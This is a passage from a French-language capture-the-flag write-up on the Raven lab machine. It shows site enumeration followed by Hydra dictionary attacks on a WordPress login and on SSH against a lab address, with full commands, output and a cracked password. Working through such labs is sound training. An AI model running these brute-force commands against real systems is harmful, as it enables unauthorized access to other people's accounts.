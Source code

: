 ```console
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
--snip--
```

## Attaque par dictionnaire sur WordPress et SSH avec Hydra

La page d'index est effectivement une présentation des activités de l'entreprise _Raven Security_ ; il n'y a pas de fichier ```robots.txt```, mais une recherche manuelle permet de lister les pages suivantes : ```index.html```, ```about.html```, ```service.html```, ```contact.php``` et ```team.html```.

Sur cette dernière page Web, l'identité de chaque membre du staff est dévoilée, et peut potentiellement correspondre à des logins, très utiles pour se connecter en SSH par exemple (Ethel Davis, Rodney Cooper, Dora Walker et Lena Keller). Quant à l'onglet Blog, il renvoie vers un site WordPress, quasi-vide.

![Affichage de l'image INDEX-Raven.png](INDEX-Raven.png)

Les outils [__DIRB__](https://tools.kali.org/web-applications/dirb), [__nikto__](https://cirt.net/nikto2-docs/) et [__WordPress Security Scanner__](https://github.com/wpscanteam/wpscan) n'ont rien révélé de spécial ; en revanche, une recherche manuelle a permis de trouver le nom d'un utilisateur, ```michael```, qui a rédigé le premier post du blog. Deux attaques avec l'outil [__Hydra__](https://sectools.org/tool/hydra/) sont alors lancées : l'une sur le service SSH à la recherche du mot de passe Unix du compte ```michael``` (s'il existe), l'autre sur l'interface d'administration du WordPress à la recherche du mot de passe du compte ```michael``` (qui, lui, existe bien).

```console
root@blinils:~# hydra -l michael -P 500-worst-passwords.txt 192.168.56.105 \
-V http-form-post '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

--snip--

[DATA] attacking http-post-form://192.168.56.105:80//wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "123456" - 1 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "password" - 2 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "12345678" - 3 of 500 [child 2] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "1234" - 4 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "pussy" - 5 of 500 [child 4] (0/0)
--snip--
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "mistress" - 496 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "phantom" - 497 of 500 [child 6] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "billy" - 498 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "6666" - 499 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "albert" - 500 of 500 [child 5] (0/0)
1 of 1 target completed, 0 valid passwords found
```

Pas de chance pour WordPress. Et pour SSH ? 

```console
root@blinils:~# hydra -l michael -P 500-worst-passwords.txt 192.168.56.105 ssh -t 4
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

--snip--

[DATA] attacking ssh://192.168.56.105:22/
[22][ssh] host: 192.168.56.105   login: michael   password: michael
1 of 1 target successfully completed, 1 valid password found
```
